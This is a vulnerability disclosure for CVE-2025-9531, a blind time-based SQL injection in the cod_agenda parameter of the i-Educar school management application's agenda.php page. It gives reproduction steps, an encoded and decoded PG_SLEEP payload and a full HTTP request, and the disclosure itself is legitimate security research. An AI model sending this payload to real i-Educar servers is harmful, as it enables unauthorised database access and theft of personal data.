 ## CVE-2025-9531: SQL Injection (Blind Time-Based) Vulnerability in `cod_agenda` Parameter on `agenda.php` Endpoint

![](https://github.com/KarinaGante/KGSec/raw/main/CVEs/images/arts/sqlInjectionBanner.png)

[![](https://img.shields.io/badge/🌸-CVE--2025--9531-dd53bc)](https://www.cve.org/CVERecord?id=CVE-2025-9531) ![](https://img.shields.io/badge/i--Educar-SQL_Injection-291b3e) [![](https://img.shields.io/badge/💜-Found_by:_Karina_Gante-AA07FF)](https://karinagante.github.io/) ![](https://img.shields.io/badge/%F0%9F%9A%A8-Critical_Severity-ff0000) [![](https://img.shields.io/badge/🧬-Member_of:_CVE--Hunters-6407ab)](https://www.cvehunters.com/)

### 📝 Summary

<p align="justify">A SQL Injection vulnerability was identified in the <code>/intranet/agenda.php</code> endpoint of the i-Educar application, specifically in the <code>cod_agenda</code> parameter. This vulnerability allows attackers to execute arbitrary SQL commands on the backend database, potentially compromising the confidentiality, integrity, and availability of application data.</p>

---

### 🔎 Details

➤ Vulnerable Endpoint: `/intranet/agenda.php`

➤ Parameter: `cod_agenda`

<p align="justify">The application fails to properly validate and sanitize user input in the <code>cod_agenda</code> parameter. As a result, attackers can inject crafted SQL payloads that are executed directly by the database. This could allow database enumeration, data exfiltration, modification, or denial of service via time-based delays.</p>

---

### 📚 PoC

#### ➤ Step by Step:

<p align="justify">Access vulnerable endpoint and click on <code>"Novo Compromisso"</code> button to setup a new entry. Type required values in the fields and click on <code>"Salvar"</code>. The page will automatically redirect to another Endpoint like: <code>http://localhost:8086/intranet/agenda.php?cod_agenda=2&time=1755283</code>.</p>

##

#### ➤ Payload:

````html
%27%20AND%204698=(SELECT%204698%20FROM%20PG_SLEEP(5))%20AND%20%27xiCO%27=%27xiCO
````

#### ➤ Decoded Payload:

````html
' AND 4698=(SELECT 4698 FROM PG_SLEEP(5)) AND 'xiCO'='xiCO
````

<p align="justify"> This payload triggers a 5-second delay in the server response, demonstrating that the parameter is vulnerable to blind time-based SQL injection.</p>

##

#### Example Request:

````html
GET /intranet/agenda.php?cod_agenda=2%27%20AND%204698=(SELECT%204698%20FROM%20PG_SLEEP(5))%20AND%20%27xiCO%27=%27xiCO  HTTP/1.1
Host: localhost:8086
sec-ch-ua: "Not)A;Brand";v="8", "Chromium";v="138"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Accept-Language: pt-BR,pt;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Cookie: i_educar_session=5AfYtvGRiuEgLBVbvksmwiNSnG75l4waXNMo1PEV
Connection: keep-alive
````

##

#### ➤ Screenshots:

#### Normal Request:

![](https://github.com/KarinaGante/KGSec/raw/main/CVEs/images/SQLi4.png)

#### SQLi Request:

![](https://github.com/KarinaGante/KGSec/raw/main/CVEs/images/SQLi5.png)

<p align="justify">Observe the increased server response time, confirming that the injected SQL command was executed.</p>

<details>
<summary><h3>📂 Click here to see all Step by Step Screenshots:</h3></summary>
<br>

![](https://github.com/KarinaGante/KGSec/raw/main/CVEs/images/SQLi1.png)

<br>

![](https://github.com/KarinaGante/KGSec/raw/main/CVEs/images/SQLi2.png)

<br>

![](https://github.com/KarinaGante/KGSec/raw/main/CVEs/images/SQLi3.png)

<br>

![](https://github.com/KarinaGante/KGSec/raw/main/CVEs/images/SQLi4.png)

<br>

![](https://github.com/KarinaGante/KGSec/raw/main/CVEs/images/SQLi5.png)
</details>

---


### ⚠️ Impact

##

<p align="justify">
<img src="https://img.shields.io/badge/%E2%80%A2-dd53bc"> Unauthorized data access: Reading sensitive information such as credentials, personal data, or configuration details.<br><br>
<img src="https://img.shields.io/badge/%E2%80%A2-dd53bc"> Database enumeration: Extracting database schema, tables, and column details.<br><br>
<img src="https://img.shields.io/badge/%E2%80%A2-dd53bc"> Data manipulation: Adding, modifying, or deleting database records.<br><br>
<img src="https://img.shields.io/badge/%E2%80%A2-dd53bc"> Stealing credentials: Attackers can steal a user's credentials.<br><br>
<img src="https://img.shields.io/badge/%E2%80%A2-dd53bc"> Denial of Service (DoS): Using time-based queries to impact system availability.<br><br>
<img src="https://img.shields.io/badge/%E2%80%A2-dd53bc"> Potential escalation to RCE: If combined with other vulnerabilities and specific database features.
</p>

---

### 🔗 References

![](https://github.com/KarinaGante/KGSec/raw/main/CVEs/images/logos/cve.png) ➤ [https://www.cve.org/CVERecord?id=CVE-2025-9531](https://www.cve.org/CVERecord?id=CVE-2025-9531)

![](https://github.com/KarinaGante/KGSec/raw/main/CVEs/images/logos/vulDB.png)➤ [https://vuldb.com/?id.321550](https://vuldb.com/?id.321550)

---

### 🕵🏻‍♀️ Finder

*Discovered with💜 by [Karina Gante](https://karinagante.github.io/).* 

[![LinkedIn](https://skillicons.dev/icons?i=linkedin&theme=dark)](https://www.linkedin.com/in/karina-gante/)
[![GitHub](https://skillicons.dev/icons?i=github&theme=dark)](https://www.github.com/KarinaGante/)
[![gmail](https://skillicons.dev/icons?i=gmail&theme=dark)](mailto:karina.gante1@gmail.com)
[![Instagram](https://skillicons.dev/icons?i=instagram&theme=dark)](https://www.instagram.com/karinovisk02/)

##

*Official Member of [CVE-Hunters](https://www.cvehunters.com/)🏹*
